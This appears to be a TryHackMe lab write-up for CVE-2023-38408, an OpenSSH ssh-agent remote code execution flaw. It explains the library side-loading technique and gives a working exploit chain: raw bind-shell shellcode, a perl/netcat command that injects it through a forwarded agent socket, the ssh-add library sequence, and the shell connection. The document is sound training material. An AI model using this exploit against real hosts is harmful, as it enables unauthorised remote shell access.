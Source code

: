 # CVE-2023-38408

**Room Link:** [https://tryhackme.com/r/room/cve202338408](https://tryhackme.com/r/room/cve202338408)

## Background Info

Initially, ssh-agent allowed loading any shared library without filtering, leading to security concerns. In response to CVE-2016-10009, an allow-list (`/usr/lib*/,/usr/local/lib/` by default) was added to limit library loading. However, it is possible to abuse the side effects of the library's constructors (`dlopen`) and destructors (`dlclose`) to manipulate memory and control the program flow.

Code execution can be achieved by making the stack executable, registering a signal handler for `SIGSEGV` and manipulating its code, replacing the signal handler's code with code from another library, triggering a `SIGSEGV`, and replacing his handler's code to finally jump into the stack where the shellcode is stored.

The following paragraphs will present the detailed steps:

**1. Making the Stack Executable:**

Leveraging `dlopen()` to load one of the libraries grants the ability to make the stack memory region (specifically the target process `ssh-pkcs11-helper`'s stack) executable. This allows bypassing the usual protection against executing code on the stack.

**2. Copy the shellcode to the stack:**

Once the shellcode is generated, typically using tools like Metasploit, it can be copied to the stack memory using the socket generated from the SSH connection. The shellcode is also combined with a `NOP sled` which is a sequence of No-Operation assembly instructions. The reason why is to provide a larger target for the program execution flow to land on during the gadget execution.\


To verify whether the process has the desired executable flag, you can use the following commands in dbg, a Linux debugger. You can repeat the next few gdb commands once you have gained access as alice:\


First, obtain the PID of the process ssh-pkcs11-helper.

1. Attach dbg to the target process using its PID.
2. Use the command info proc mapping to examine the memory mappings of the process.
3. Look for the memory region corresponding to the stack, and check its flags, marked as rwx.\


**Terminal**

```shell-session
alice@workstation:~$ ps -aux | grep pkcs11-helperalice
1522 0.0 0.2 7788 5520 ? S 09:22 0:00 /usr/lib/openssh/ssh-pkcs11-helper
alice@workstation:~$ sudo gdb -p 1522
[snip]
29 ../sysdeps/unix/sysv/linux/poll.c: No such file or directory. (gdb) info proc mappings process 1522 Mapped address spaces:
Start Addr End Addr Size Offset Perms objfile
[snip]
0x7ffc7a83b000 0x7ffc7a85c000 0x21000 0x0 rwxp
[stack]
0x7ffc7a9df000 0x7ffc7a9e3000 0x4000 0x0 r--p
[vvar]
0x7ffc7a9e3000 0x7ffc7a9e5000 0x2000 0x0 r-xp
[vdso]
0xffffffffff600000 0xffffffffff601000 0x1000 0x0 --xp 
[snip]
```

Using gdb, you can verify whether the stack has the shellcode loaded by inspecting its content.\


Regarding the command `$rsp+10100`, it is an expression that references a specific memory location relative to the stack pointer (`$rsp`). In this case, `$rsp+10100` points to the memory location located 10100 bytes above the stack pointer.\


Observe that it contains a series of NOP (No Operation) instructions followed by the start of the shellcode: `0x31 0xc0 0x48 0x31 0xc0 0xff 0x48`

**Terminal**

```shell-session
(gdb) x/100xgb $rsp+10100
0x7ffc7a85994c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859954: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85995c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859964: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85996c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859974: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85997c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859984: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85998c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859994: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85999c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a8599a4: 0x90 0x90 0x90 0x90 0x90 0x48 0x31 0xc0
0x7ffc7a8599ac: 0x48 0x31 0xff 0x48
```

\


**3. Registering a Signal Handler:**

To successfully execute arbitrary code within the exploit, a custom signal handler must be registered for the `SIGSEGV` signal. This signal, known as a Segmentation Fault, is triggered when a program attempts to access an invalid memory address. By registering the signal handler, the exploit gains the ability to define a user-defined function that will be executed whenever the `SIGSEGV` signal occurs.

**4. Replacing the Signal Handler's Code:**

At this stage, the exploit leverages the technique of side-loading another library to replace the current signal handler's code with an alternative code segment that will jump to the stack where the shellcode is stored.

To ensure that the code segments of this new library remain mapped in memory even after `dlclose()` is invoked, the library must be marked with the "`Nodelete`" attribute. Ordinarily, when `dlclose()` is called to close a shared library, the library's code segments are unloaded from memory, and any associated resources are released. However, by utilizing the "`Nodelete`" attribute, the attacker prevents the code segments from being unloaded, effectively preserving their existence in memory beyond the `dlclose()` operation. This ensures that the replacement code, responsible for jumping to the shellcode in the stack, remains accessible and functional throughout the exploit's execution.

**5. Triggering SIGSEGV:**

By employing yet another library, the attacker intentionally triggers a `SIGSEGV` signal, which prompts the kernel to execute the custom signal handler previously registered. This strategic step is a critical part of the exploit's progression.

Upon receiving the `SIGSEGV` signal, the kernel recognizes that an invalid memory access has occurred and proceeds to invoke the custom signal handler rather than terminate the program abruptly. By doing so, the attacker seizes the opportunity to manipulate the program's execution and steer it toward the injected malicious code located within the NOP sled.

**6. Executing the Replacement Code:**

By achieving this precise jump into the executable stack, the exploit ensures that the program's execution is directed toward the specific memory location where the shellcode resides.&#x20;



## Exploitation

In this task, we will delve into running the exploit and gaining a more practical understanding of its functionality.\


For this particular scenario, we will be working with two machines: the workstation (a vulnerable instance of Ubuntu 21.04) and another server which is under the attacker's control (Attackbox). To simulate the vulnerable instance, a connection between the workstation and the server has been employed in the previous task. There is a user alice who is connected from the workstation to the attacker using SSH agent forwarding. Alice does this by executing the following commands (so you do not have to):

**Kali**

```
echo /tmp/ssh-*/agent.*
export SSH_AUTH_SOCK=/tmp/ssh-m0jgGsq7Jm/agent.3921
ssh-add -s /usr/lib/systemd/boot/efi/linuxx64.elf.stub
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To copy the shellcode into the process using the SSH socket, you need to follow these steps:

1. Obtain the `PID` of the SSH agent running on the remote attacker machine.
2. Once you have the socket, use netcat (`nc`) to transfer the shellcode to the agent's memory (workstation).&#x20;
3. After starting the transfer, wait for a few seconds to ensure the shellcode is fully copied into the target memory.
4. Finally, press Ctrl-C to stop the netcat transfer once the shellcode is successfully placed in the agent's memory.

Note that the next command will not use `ssh-add`. Because the malicious payload is around 10KB passphrase and ssh-add has a limit of 1KB.

**Kali**

```
SHELLCODE=$'\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05' 


(perl -e 'print "\0\0\x27\xbf\x14\0\0\0\x10/usr/lib/modules\0\0\x27\xa6" . "\x90" x 10000'; echo -n "$SHELLCODE") | nc -U "$SSH_AUTH_SOCK"

^C
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The next step to the exploitation process is register the signal handler for the Segmentation Fault (`SIGSEGV`) signal.

**Kali**

```
ssh-add -s /usr/lib/titan/libttcn3-rt2-dynamic.so
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After successfully registering the custom signal handler for `SIGSEGV`, the next crucial step in the exploitation process is to replace the original signal handler routine with a carefully chosen gadget. This gadget will serve as a means to redirect the program's execution flow and jump into the stack when the SIGSEGV signal is triggered.

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libKF5SonnetUi.so.5.92.0
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, by intentionally causing a segmentation fault, the `SIGSEGV` event can be triggered, executing the shellcode:

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libns3.35-wave.so.0.0.0
```

**Victim**

```
nc localhost 31337
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
